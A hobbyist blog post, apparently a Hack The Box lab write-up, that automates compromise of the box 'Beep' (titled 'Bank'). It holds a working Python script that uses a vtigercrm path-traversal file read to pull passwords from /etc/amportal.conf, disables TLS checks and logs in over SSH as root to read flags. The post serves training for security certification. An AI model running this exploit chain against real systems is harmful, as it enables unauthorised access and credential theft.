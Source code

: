 +++
title = 'Automating Htb Bank'
date = 2025-02-21T20:32:04+01:00
+++

# The 'Art' of automation

Because I wanted to get OSCP at some point, I started preparing for it by working through TJNull's OSCP list.  
Currently, as another form of gathering knowledge and skills, I am doing the HTB CPTS.  
It is a lot of fun.  
<br>
I could already program in Python and wanted to see if it is possible to create a 'one click pwn'.  
Or an automated sequence of steps to get to both of the flags.  
For the first exercise, I (ab)used the box *Beep* for it.  

## Skipping of enumeration process

To simplify this undertaking, I did not include the enumeration process.  
But the steps for this box, heavily speed up, are:  
1. nmap scan, `sudo nmap 10.10.10.7 -sC -sV -p- -oN bank.out`
2. visit website, change settings in Firefox about:config and change minimum TLS version to 1. 
3. Directory Busting, `gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://10.10.10.7 -r -t 20`
4. Check if vtigercrm has publicly known exploits, `searchsploit vtigercrm`
5. Finding the one that does work,`https://www.exploit-db.com/exploits/37637`
6. Run the LFI to find the root password, connect with SSH for Party Time
7. No Party time yet because SSH complains about not support version of encryption, Using Kali Tweaks -> Hardening -> SSH

## Alright automate it

As a smarter person than me could deduce from the imports, is that we basically need a way to interact with SSH and Websites.  
The TC, termcolor, is a custom terminal colouring library I wrote myself.  
Consider it a poor man's Rich.  

```Python
import ssl
import argparse
import paramiko
import requests
import urllib3
from tc import TC
```
Getting the LFI right was a bit tricky do to requests complaining about the same issues.  
Hence we 'override' the HTTPAdapter class and change it's SSL context and remove some safety settings.

```python
urllib3.disable_warnings()


class HTTPAdapter(requests.adapters.HTTPAdapter):
    """
    This class is needed to change the standard SSL behaviour of Requests.
    It won't except the 'unsafer' versions of SSL / TLS.
    """

    def __init__(self, *args, **kwargs):
        super().__init__(*args, **kwargs)

    def init_poolmanager(self, *args, **kwargs):
        ssl_context = ssl.create_default_context()
        ssl_context.minimum_version = ssl.TLSVersion.TLSv1
        ssl_context.check_hostname = False
        kwargs["ssl_context"] = ssl_context
        return super().init_poolmanager(*args, **kwargs)
```

After that, we can use the LFI to obtain the Username and Password.  
As we can see, we obtain the amportal.conf, use some regex to find all the passwords.  

```python
def pwn_vtigercrm(ip_address) -> list:
    """
    Takes in the IP Address
    Performs an LFI attack to obtain Password of the root user
    The special bit is in regard to user an requests adapter.
    """
    URL = f"https://{ip_address}/vtigercrm/graph.php?current_language="
    PARAMETER = "../../../../../../../../etc/amportal.conf%00&module=Accounts&action"
    PASSWORDLIST = set()
    with requests.Session() as s:
        s.mount("https://", HTTPAdapter())
        try:
            res = s.get(url=URL+PARAMETER, verify=False)
            print(
                f"{TC.Text.GREEN}[*]{TC.RESET} LFI Attack Done on host: {TC.Text.YELLOW}{ip_address}{TC.RESET}")
            for line in res.text.split('\n'):
                if "PASS" in line and not "#" in line:
                    PASSWORDLIST.add(line.split("=")[1])
        except Exception as e:
            print(f"{TC.Text.RED}[*]{TC.RESET} Something went wrong: {e}")
    print(
        f"{TC.Text.GREEN}[*]{TC.RESET} {len(PASSWORDLIST)} unique passwords found: {TC.Text.YELLOW}{PASSWORDLIST}{TC.RESET}")
    return list(PASSWORDLIST)
```

With Paramiko, we can automate the SSH logging in and sending commands process.  
We use the AutoAddPolicy, which is basically doing the same thing we do when we get the SSH Warning.  
Accept so we can further our hacking endeavours.  


```python
def get_flags(ip_address, username, password):
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    client.connect(hostname=ip_address, username=username, password=password)

    flag_location = {'user': '/home/fanis/user.txt', 'root': '/root/root.txt'}
    for key, value in flag_location.items():
        print(f"{TC.Text.GREEN}[*]{TC.RESET} Trying to get the {key} flag")
        _, stdout, stderr = client.exec_command(f"cat {value}")
        output = stdout.readlines() + stderr.readlines()
        if output:
            print(f"{TC.Text.GREEN}----Flag----{TC.RESET}")
            for line in output:
                print(
                    f"{TC.Text.GREEN}[>]{TC.RESET} {TC.Text.YELLOW}{line.strip()}{TC.RESET}")
```

The last section is when we run this specific file, we can use it as a command line tool.  
We give it the IP of the box, it runs and we get the flags.

```python
if __name__ == "__main__":
    parser = argparse.ArgumentParser(
        prog="Automate BEEP",
        description="Fire and Pown")
    required_arguments = parser.add_argument_group('Required Arguments')
    required_arguments.add_argument(
        "-H", "--host", help="The IP address of Beep", required=True)
    args = parser.parse_args()
    pw = pwn_vtigercrm(args.host)[0]
    get_flags(args.host, 'root', pw)
```

## Lessons learned and next steps

These are some nice tools to have in my toolbox and I am glad that I did it.  
Not all code is clean and neat, but that is the most important lesson.  
Make something you deem fun and worth your time. Learn by applying, and research on how to get better.  

I like to continue with it and do some more boxes this way.  
But next time, I try to automate the enumeration process as well.

XOXO Sp00ky.
